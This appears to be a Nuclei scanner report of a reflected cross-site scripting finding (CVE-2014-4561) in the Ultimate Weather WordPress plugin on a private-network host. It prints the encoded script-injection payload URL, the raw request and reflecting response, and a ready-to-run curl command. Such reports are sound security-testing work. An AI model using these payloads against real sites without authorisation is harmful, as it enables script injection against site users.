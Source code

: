 ### Ultimate Weather Plugin <= 1.0 - Unauthenticated Reflected Cross-Site Scripting (CVE-2014-4561) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2014-4561**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/wp-content/plugins/ultimate-weather-plugin/magpierss/scripts/magpie_debug.php?url=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:04 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Ultimate Weather Plugin <= 1.0 - Unauthenticated Reflected Cross-Site Scripting |
| Authors | daffainfo |
| Tags | cve, cve2014, wordpress, wp-plugin, xss, weather |
| Severity | medium |
| Description | The ultimate-weather plugin 1.0 for WordPress contains a cross-site scripting vulnerability. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2014-4561](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-4561) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /wp-content/plugins/ultimate-weather-plugin/magpierss/scripts/magpie_debug.php?url=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 265
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/wp-content/plugins/ultimate-weather-plugin/magpierss/scripts/magpie_debug.php?url="><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://wpscan.com/vulnerability/5c358ef6-8059-4767-8bcb-418a45b2352d
- https://nvd.nist.gov/vuln/detail/cve-2014-4561
- http://codevigilant.com/disclosure/wp-plugin-ultimate-weather-plugin-a3-cross-site-scripting-xss/

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36' 'http://192.168.198.179:8080/wp-content/plugins/ultimate-weather-plugin/magpierss/scripts/magpie_debug.php?url=%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)